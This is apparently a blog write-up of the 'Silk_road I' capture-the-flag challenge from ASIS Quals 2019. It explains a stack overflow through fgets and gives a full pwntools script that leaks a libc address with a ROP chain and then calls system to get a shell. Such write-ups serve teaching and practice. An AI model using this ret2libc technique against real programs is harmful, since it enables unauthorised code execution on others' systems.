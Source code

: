 ```yaml
---
title: Silk_road I (ASIS QUALS19)
date: 2019-04-24 00:00:00 +0530
categories: [CTF]
tags: [Re, exploitation, ctf]
---
```


### About the challenge :

The challenge was pretty simple. It was more of a reversing challenge than a pwning challenge.  Since it was a binary challenge, I started looking for bugs (I am a newbie in pwning ) and finally there is an `fgets()` function. But to reach the function we have a few constraints. First when we run a binary, it asks for an ID. There is a function which checks the ID. I didn’t want to sit and reverse the function, so brute-force worked. Then it asks for a nick and it was just a string compare.

Coming to the pwning part, after the overflow we just have to give a rop chain so that we can leak a libc address and then make it return to main again and give another rop chain so that we can execute `execve` system call.

The following is my script :

```python
from pwn import *
p = process('./silkroad.elf')
gdb.attach(p)
p.recvuntil("Enter your secret ID: ")
p.send("790317143")
p.recvuntil("Enter your nick: ")
p.send("DreadPirateRobertsCiz\x00")
p.recvuntil("delete evidince and run Silkroad!\n")
 
puts_got = p64(0x0000000000404038)
puts_plt = p64(0x0000000000401070)
main = p64(0x0000000000401AFD)
pop_rdi = p64(0x0000000000401bab)
 
exp1 = "a"*72 + pop_rdi + puts_got + puts_plt + main
 
p.sendline(exp1)
leak = u64(p.recvline().strip() + "\x00\x00")
print hex(leak)
system = leak - 202112
arg1 = leak + 1258714
print hex(system)
print hex(arg1)
 
p.recvuntil("Enter your secret ID: ")
p.send("790317143")
p.recvuntil("Enter your nick: ")
p.send("DreadPirateRobertsCiz\x00")
p.recvuntil("delete evidince and run Silkroad!\n")
 
exp2 = "a"*72 +  p64(0x401B4B) + pop_rdi + p64(arg1) + p64(system) + p64(0)
p.sendline(exp2)
 
p.interactive()
```

And that’s it, challenge solved !!!
